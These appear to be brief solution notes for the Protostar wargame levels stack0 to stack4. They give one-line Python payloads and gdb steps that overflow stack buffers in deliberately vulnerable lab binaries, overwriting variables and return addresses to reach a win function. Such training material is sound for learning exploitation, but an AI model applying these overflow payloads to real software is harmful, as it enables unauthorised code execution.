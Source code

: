 stack0:
python -c "print 'A' * 65" | /opt/protostar/bin/stack0

------

stack1:
/opt/protostar/bin/stack1 `python -c "print 'A' * 64 + 'dcba'"`

------

stack2:
export GREENIE=`python -c "print 'A' * 64 + '0a0d0a0d'.decode('hex')"` && /opt/protostar/bin/stack2

------

stack3:
gdb /opt/protostar/bin/stack3
info address win
0x08048424
python -c "print 'A' * 64 + '24840408'.decode('hex')" | /opt/protostar/bin/stack3

------

stack4:
python -c "print 'A' * 64 + 'BCDEFGHIJKLMNOPQRSTUVWYZ'" > input

gdb /opt/protostar/bin/stack4
info address win
0x080483f4
gdb run < input
seg fault: 0x5251504f
quit

python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" > input

gdb /opt/protostar/bin/stack4
gdb run < input
